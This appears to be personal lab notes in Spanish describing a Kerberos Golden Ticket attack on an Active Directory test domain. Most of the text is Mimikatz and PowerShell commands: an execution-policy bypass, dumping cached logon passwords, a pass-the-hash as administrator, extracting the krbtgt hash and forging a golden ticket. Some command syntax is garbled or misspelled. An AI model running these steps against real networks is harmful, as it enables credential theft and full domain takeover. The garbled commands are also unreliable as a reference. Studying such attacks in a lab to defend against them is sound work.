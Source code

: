 
Esta técnica se trata de un ataque que intenta conseguir acceso casi ilimitado a un dominio de una organización mediante los datos de usuario almacenados en el AD. Explota las vulnerabilidades de autenticación de kerberos permitiendo al atacante hacer un bypass del autenticador.

Veamos un ejemplo practico:

Ejecutar powershell como administrador.

```powershell
cd C:\tools
powershell -ep bypass
. .\PowerView.ps1
. .\Incoke-Mimikatz.ps1

Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

![[Pasted image 20250404091344.png]]

Importante del administrador apuntar:
1. SID
2. NTLM

Procedemos con un pass-the-hash attack

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:hash"'

#Esto nos abre un command prompt como administrador. y pasamos los comapdos a este prompt

powershell
cd C:\Tools
powershell -ep bypass
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername prod.research.security.local
```

![[Pasted image 20250404092026.png]]

El importante a anotar es el krbtgt (kerberos tgt).

Pasamos al primer powershell abierto.

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:research.security.local /sid:SID /krbtgt:TGT id:500 /groups:512 /staroffset ending:600 /renewmax:10080 /ptt"'
```

Los valores de id y de groups los hemos puesto así porque es el standard, puede variar.

![[Pasted image 20250404092452.png]]

![[Pasted image 20250404092610.png]]

